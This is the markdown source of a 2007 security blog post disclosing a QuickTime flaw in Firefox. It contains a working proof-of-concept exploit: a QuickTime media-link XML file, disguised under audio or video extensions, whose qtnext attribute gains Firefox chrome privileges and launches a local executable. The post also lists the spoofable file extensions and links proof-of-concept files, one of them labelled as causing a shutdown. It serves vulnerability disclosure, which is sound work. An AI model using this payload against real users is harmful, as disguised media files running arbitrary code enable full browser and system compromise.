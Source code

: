 ```yaml
---
title: 0DAY QuickTime pwns Firefox
author: pdp
date: Wed, 12 Sep 2007 12:05:53 GMT
template: post.jade
category: fucked
---
```


It seams that QuickTime media formats can cause Firefox to misbehave. The result of this vulnerability can lead to full compromise of the browser.

Before we move on, I have to say a few things. Last year I disclosed two QuickTime vulnerabilities [here](/blog/backdooring-quicktime-movies/) and [here](/blog/backdooring-mp3-files/). The first vulnerability was fixed but the second one was completely ignored. I tried to bring the spot light on the second vulnerability one more time over [here](/blog/myspace-quicktime-worm-follow-up) without much of success. So, I decided to post a demonstration of how a _Low risk_ issue can be turned into a very easy to perform **HIGH risk** attack when technology change.

The exploit is rather simple. But first, here is a simple QTL file which instructs the browser to display a friendly `alert('whats up...')` message on the screen:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="presentation.mov" autoplay="true" qtnext="javascript:alert('whats up...')"/>
```

The most interesting thing about this simple XML file is that we can save it with QuickTime supported extension in order to mislead the user. If you check [about:plugins](about:plugins) under Firefox,  you will see that QuickTime supports several media formats. We can use the audio and video formats only. This means that you can paste the above code into files with extensions: `3g2, 3gp, 3gp2, 3gpp, AMR, aac, adts, aif, aifc, aiff, amc, au, avi, bwf, caf, cdda, cel, flc, fli, gsm, m15, m1a, m1s, m1v, m2a, m4a, m4b, m4p, m4v, m75, mac, mov, mp2, mp3, mp4, mpa, mpeg, mpg, mpm, mpv, mqv, pct, pic, pict, png, pnt, pntg, qcp, qt, qti, qtif, rgb, rts, rtsp, sdp, sdv, sgi, snd, ulw, vfw, wav` and others.

Enough theory, let's see some action. For more information, just read [this](/blog/backdooring-mp3-files/) blog post. The exploit that gains chrome privileges looks like this:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="a.mp3" autoplay="true" qtnext="-chrome javascript:file=Components.classes['@mozilla.org/file/local;1'].createInstance(Components.interfaces.nsILocalFile);file.initWithPath('c:\\windows\\system32\\calc.exe');process=Components.classes['@mozilla.org/process/util;1'].createInstance(Components.interfaces.nsIProcess);process.init(file);process.run(true,[],0);void(0);"/>
```

In practice I can do anything with the browser. However, just for the sake of this demonstration, I simply open **calc.exe**.

If you dare to try this in your browser, here is a list of a few files you have to click on. They are not malicious. You have my word: [qt-poc-01.mp3](/files/2007/09/qt-poc-01.mp3), [qt-poc-02-shutdown-dont-click.mp3](/files/2007/09/qt-poc-02-shutdown-dont-click.mp3), [qt-poc-03.mpeg](/files/2007/09/qt-poc-03.mpeg), [qt-poc-04.mov](/files/2007/09/qt-poc-04.mov), [qt-poc-05.avi](/files/2007/09/qt-poc-05.avi).

_BTW, QuickTime comes by default with iTunes. Therefore, iTunes users are most affected, I believe._
